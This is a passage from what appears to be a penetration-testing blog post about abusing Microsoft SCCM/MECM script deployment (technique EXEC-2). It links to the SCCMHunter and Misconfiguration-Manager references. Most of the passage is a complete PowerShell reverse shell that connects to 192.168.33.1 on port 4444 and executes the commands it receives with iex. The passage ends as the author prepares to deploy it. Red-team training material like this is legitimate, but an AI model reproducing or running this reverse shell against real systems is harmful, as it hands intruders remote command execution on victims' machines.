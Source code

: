 See SCCMHunter wiki for the list :  [https://github.com/garrettfoster13/sccmhunter/wiki/admin](https://github.com/garrettfoster13/sccmhunter/wiki/admin)

![interact_mecm.png](/assets/blog/SCCM/interact_mecm.png)

## exec-2 - Script Deployment

- Details here : [Exec-2](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/EXEC/EXEC-2/exec-2_description.md)
- First we will create a simple revershell in powershell

```powershell
$c = New-Object System.Net.Sockets.TCPClient('192.168.33.1',4444);
$s = $c.GetStream();[byte[]]$b = 0..65535|%{0};
while(($i = $s.Read($b, 0, $b.Length)) -ne 0){
    $d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);
    $sb = (iex $d 2>&1 | Out-String );
    $sb = ([text.encoding]::ASCII).GetBytes($sb + 'ps> ');
    $s.Write($sb,0,$sb.Length);
    $s.Flush()
};
$c.Close()
```

- We will try to deploy the script
